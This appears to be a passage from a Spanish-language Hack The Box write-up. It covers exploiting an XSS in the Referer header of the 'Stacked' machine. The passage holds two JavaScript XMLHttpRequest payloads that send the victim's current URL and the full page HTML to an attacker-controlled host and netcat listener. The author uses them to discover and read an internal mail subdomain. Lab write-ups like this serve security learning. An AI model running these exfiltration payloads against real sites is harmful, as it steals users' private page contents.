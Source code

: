 ![0](https://user-images.githubusercontent.com/69093629/162544074-7662d07d-a39b-4eb3-92d7-27fc34889e63.png)

Y tras un pequeño intervalo de tiempo recibí una petición GET a mi servidor desde la máquina víctima.

![0](https://user-images.githubusercontent.com/69093629/162544209-25b5969e-960e-47f5-8099-b79d0452d602.png)

La cabecera *Referer* era vulnerable a XSS.

### Estrategia

Mi idea era identificar si el servidor tenía interacción con algún usuario, por lo que me cree un pequeño script en JS con el siguiente contenido:

```js
var oReq = new XMLHttpRequest();
oReq.open("GET", "http://10.10.16.59:9999/" + document.location, false);
oReq.send();
```

Este lo que iba a hacer es enviar una petición GET a mi sesión de `nc` por el puerto 9999 con la ruta en la que se encontraba el usuario en ese momento.

Abrí un servidor de Python por el puerto 8000 alojando `request-3.js` y apunté a mi archivo JS desde el XSS.

![0](https://user-images.githubusercontent.com/69093629/162544871-e17b5ff2-1cb8-45cc-9a31-b43604991314.png)

Espere un tiempo y recibí una conexión a mi sesión de `nc` en la que contenía una ruta.

![0](https://user-images.githubusercontent.com/69093629/162544592-0e724ada-b7ed-499c-a487-1fbe20a7f167.png)

Al parecer el usuario estaba en `mail.stacked.htb`. Este subdominio no lo encontró `wfuzz` porque operaba localmente en la máquina y no tenía acceso a el de manera externa.

El siguiente paso fue descargar el HTML de `http://mail.stacked.htb/read-mail.php?id=7` y almacenarlo en `index.html`.

Lo que hice fue crear otro script en JS con el siguiente código:

```js
var oReq = new XMLHttpRequest();
oReq.open("POST", "http://10.10.16.59:5555/", false);
oReq.send(document.documentElement.outerHTML);
```

Este lo que hace es enviar una petición POST a mi sesión de netcat con el código HTML de la página en la que se encontraba el usuario por el puerto `5555` y almacenar este en un archivo llamado `index.html`.

Apunte a mi archivo JS llamado `request.js` desde el XSS y recibí una conexión a mi sesión de `nc`.

![0](https://user-images.githubusercontent.com/69093629/162545501-0ace3a79-4a76-4a62-b705-029fcaffb8fd.png)

### Esquema de ataque:
